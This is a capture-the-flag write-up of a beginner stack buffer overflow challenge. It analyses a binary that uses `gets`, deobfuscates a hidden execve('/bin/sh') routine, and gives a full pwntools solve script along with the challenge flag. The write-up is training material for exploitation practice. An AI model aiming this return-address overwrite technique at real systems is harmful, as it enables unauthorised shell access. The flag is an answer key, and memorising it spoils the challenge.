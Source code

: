 # Welcome Pwn3R (pwn)

**`Author:`** [Malik](https://github.com/malikDaCoda)

## Description

> Welcome Pwn3R!! We have prepared this challenge to warm you up for what's coming next ;)

## Brief summary

- `gets` function is used --> buffer overflow
- there is a `secret` function, after analyzing it we understand it makes an `execve` syscall to open a shell: `execve(filename="/bin/sh", argv=0, envp=0)`
- overflow the buffer to overwrite the return address with the `secret` function's address
- pop a shell :)

## Write-up

### Analysis

Let's start with checking the protections of the binary using `checksec` :

![checksec](img/checksec.png "checksec")

Good news :  
- PIE is disabled : addresses of the binary are fixed (not randomized with ASLR)
- No stack canary : there's no stack canary protection for stack buffer overflows
- Relocations partially read-only : GOT table can still be overwritten

Upon running the [binary](challenge/welcome), we are greeted with the following message :

![welcome message](img/welcome-message.png "welcome message")

This can be an indicator that we're dealing with a classic stack buffer overflow.  

Let's look at the binary in ghidra :

![ghidra main](img/ghidra-main.png "ghidra main")

Effectively, we have a stack buffer overflow with the vulnerable `gets` function. This allows overwriting the return address on the stack.  
What also catches our attention is the `secret` function, it's never called in main, but it is still in the binary. Let's look at it :

![ghidra secret](img/ghidra-secret.png "ghidra secret")

The decompilation doesn't describe much, the disassembly is more interesting :  
```asm
MOV	RAX, -0x770e266b5d4b7330
MOV	RDI, -0x7766554433221101
XOR	RAX, RDI
PUSH	RAX
MOV	RDI, RSP
XOR	RSI, RSI
XOR	RDX, RDX
MOV	RAX, 0x1337
XOR	RAX, 0x130c
SYSCALL
```

A system call is made, but the code is a little obfuscated. After some analysis, here's how it can be re-written as :  
```asm
/* execve(path="/bin/sh\x00", argv=0, envp=0) */
MOV	RAX, 0x68732f6e69622f /* "/bin/sh\x00" */
PUSH	RAX
MOV	RDI, RSP
MOV	RSI, 0
MOV	RDX, 0
MOV	RAX, 0x3b /* SYS_execve */
SYSCALL
```

So basically this is a syscall for opening a `/bin/sh` shell.

### Exploitation

First we need to calculate the offset between the buffer and the return address. We can do that either by summing the sizes of the local variables on the stack + 8 bytes for the frame pointer, or by directly calculating it in gdb :

![gdb offset](img/gdb-offset.png "gdb offset")

I'm using [pwndbg](https://github.com/pwndbg/pwndbg) by the way, which is a great gdb extension for binary exploitation and reverse engineering.  
Anyway, the first and only argument of `gets` is the address of the buffer `0x7fffffffd7c0`, and the return address is placed at `0x7fffffffd808`, then the offset is equal to `0x48`.  
Since PIE is disabled, the address of `secret` function will always be the same. So to finally get a shell, we need to send `0x48` bytes of junk + the 8-byte address of `secret`.  
We can use pwntools to get the address of `secret` : `elf.sym.secret` (elf is the loaded binary).

### Solve script

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./challenge/welcome")

HOST, PORT = "localhost", 1337

context.binary = elf
context.terminal = ["tmux", "splitw", "-h", "-p", "75"]

def main():
    global io

    # offset from return address
    offset = 0x48

    io = conn()

    io.recvuntil(": ")
    payload = flat(
        b'A'*offset,
        elf.sym.secret
    )
    io.sendline(payload)

    io.interactive()

def conn():
    global libc
    gdbscript = '''
    '''
    if args.REMOTE:
        return remote(HOST, PORT)
    else:
        p = process([elf.path])
        if args.GDB:
            gdb.attach(p, gdbscript=gdbscript)
        return p

if __name__ == "__main__":
    io = None
    try:
        main()
    finally:
        if io:
            io.close()

```

### Flag

`shellmates{g000d_s7@rt_Pwn3R_U_c4n_c0Nt1Nu3!!}`
